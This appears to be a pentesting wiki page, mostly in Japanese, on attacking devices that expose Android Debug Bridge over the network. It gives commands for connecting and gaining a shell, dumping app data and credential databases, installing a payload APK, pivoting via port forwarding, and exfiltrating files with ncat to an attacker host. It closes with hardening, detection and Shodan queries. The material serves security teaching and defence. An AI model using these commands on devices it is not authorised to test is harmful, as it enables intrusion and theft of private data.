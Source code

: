 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## 基本情報

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) は、Androidベースのデバイスやエミュレーターと通信するためのコマンドラインツールです。典型的なアクションには、パッケージのインストール、デバッグ、およびデバイス上でのインタラクティブなUnixシェルの取得が含まれます。

- 歴史的なデフォルトTCPポート: 5555 (クラシックな "adb tcpip" モード)。
- 現代のワイヤレスデバッグ (Android 11+) は、TLSペアリングとmDNSサービス発見を使用します。接続ポートは動的で、mDNSを介して発見されます; 5555でない場合があります。ペアリングは、adb pair host:port の後に adb connect を使用して行います。攻撃的な影響については、以下のノートを参照してください。

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## 接続

ADBが公開され、到達可能である場合は、迅速に接続して列挙を試みてください:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- デバイスがADB認証を強制する場合 (ro.adb.secure=1)、事前に認証されている必要があります (USB RSA認証) またはAndroid 11以上のワイヤレスデバッグペアリングを使用する必要があります (これはデバイスに表示される一度限りのコードが必要です)。
- 一部のベンダーイメージ、エンジニアリング/ユーザーデバッグビルド、エミュレーター、テレビ、STB、および開発キットは、認証なしでadbdを公開するか、adbdがルートとして実行されます。その場合、通常はシェルまたはルートシェルに直接入ります。

一般的なADBコマンドのリファレンスについては、次を参照してください：

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## クイックポストエクスプロイテーション

シェルを取得したら、権限とSELinuxコンテキストを検証します：
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### データの列挙とキャプチャ

- サードパーティアプリとパスのリスト:
```bash
pm list packages -3
pm path <pkg>
```
- ルート権限がある場合（adb rootまたはsuが機能します）、/dataに直接アクセスできます。そうでない場合は、デバッグ可能なアプリにはrun-asを使用してください:
```bash
# ルートなしで、デバッグ可能なアプリの場合
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# ルートあり
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- 有用なシステムアーティファクト（ルートが必要）:
- /data/system/users/0/accounts.dbおよび関連するAccountManagerデータ
- /data/misc/wifi/（古いバージョンのネットワーク設定/キー）
- /data/data/<pkg>のアプリ固有のSQLite DBおよびshared_prefs

これを使用して、機密情報（例：アプリの秘密）を取得できます。Chromeデータに関する考慮事項についてのメモは、[こちら](https://github.com/carlospolop/hacktricks/issues/274)で参照してください。

### コード実行とペイロード配信

- ランタイム権限をインストールして自動付与:
```bash
adb install -r -g payload.apk         # -gはマニフェストで宣言されたすべてのランタイム権限を付与します
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- アクティビティ/サービス/ブロードキャストを直接開始:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### ポートフォワーディングとピボッティング

ルートなしでも、adbはローカルポートをデバイスポートに転送できますし、その逆も可能です。これは、デバイス上でローカルにバインドされたサービスにアクセスしたり、攻撃者のサービスをデバイスに公開したりするのに便利です。

- ホスト->デバイスを転送（ホストからデバイスのローカルサービスにアクセス）:
```bash
adb forward tcp:2222 tcp:22       # デバイスがSSHを実行している場合（例：Termux/Dropbear）
adb forward tcp:8081 tcp:8080     # アプリのローカルデバッグサーバーを公開
```
- デバイス->ホストを逆転送（デバイスがホスト上のサービスにアクセスできるようにする）:
```bash
adb reverse tcp:1080 tcp:1080     # デバイスアプリは今、ホスト:1080に127.0.0.1:1080としてアクセスできます
```
- ソケットを介したファイルの抽出（sdcardへの書き込みなし）:
```bash
# ホストで: リッスン
ncat -lvp 9000 > dump.tar
# デバイスで: ディレクトリをtarとして送信（ルートまたはrun-asが適用される）
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## ワイヤレスデバッグ（Android 11+）

最新のAndroidは、デバイス側のペアリングとmDNS発見を使用したTLS保護されたワイヤレスデバッグを実装しています:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
ノート
- ポートは動的であり、5555を前提にしないでください。mDNSサービス名は次のようになります：
- _adb-tls-pairing._tcp (ペアリング)
- _adb-tls-connect._tcp (ペア接続)
- _adb._tcp (レガシー/プレーン)
- mDNSがフィルタリングされている場合、古典的なUSB支援による有効化が一部のビルドでまだ機能する可能性があります：`adb tcpip 5555` その後 `adb connect <ip>:5555` （再起動まで）。

攻撃的な含意：デバイスのUIと対話できる場合（例：物理的アクセスまたはモバイルMDMの誤設定）にワイヤレスデバッグを有効にし、ペアリングコードを表示できれば、ケーブルなしで長期間のペアADBチャネルを確立できます。一部のOEMは、ペアリングなしでエンジニアリング/開発イメージでTCP経由のADBを公開しています—常に確認してください。

## ハードニング / 検出

防御者は、到達可能なadbd（TCP）が重大なリスクであると仮定すべきです。

- 不要な場合はADBとワイヤレスデバッグを無効にしてください。開発者オプションでUSBデバッグの認証を取り消してください。
- 信頼できないセグメントでのTCP/5555の受信およびmDNSベースのADB発見をブロックするネットワークポリシーを確保してください。
- あなたの管理下にあるデバイスで：
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCPリスニングを無効にする（または：adb usbを使用）
stop adbd; start adbd             # デーモンを再起動
```
- 企業ネットワークでのmDNSレコード `_adb._tcp`、`_adb-tls-connect._tcp`、`_adb-tls-pairing._tcp` を監視し、予期しない5555リスナーに対してアラートを出してください。
- 不安全なビルドのインベントリ：`getprop ro.debuggable`、`ro.build.type`、および `ro.adb.secure`。

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## 参考文献

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
